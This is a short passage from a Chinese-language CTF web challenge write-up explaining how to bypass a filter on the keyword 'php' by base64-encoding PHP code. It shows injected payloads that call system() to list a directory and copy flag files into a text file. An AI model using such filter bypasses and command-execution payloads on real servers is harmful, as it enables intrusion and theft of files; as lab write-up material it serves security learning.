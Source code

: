 过滤了关键词php, 因此在上一题的基础上, 使用base64对要执行的php代码进行编码就可以绕过过滤了

<img src="/images/ctf-web06/image-20220924163707058.png" alt="image-20220924163707058" style="zoom:67%;" />

上图中的编码解码后为:

```php
<?php system("ls"); ?>
```

执行完这一句,在执行编码后的这一句即可

```php
<?php system("cat f*.php>>1.txt")?>
```

<br>

***

<br>

# Web39

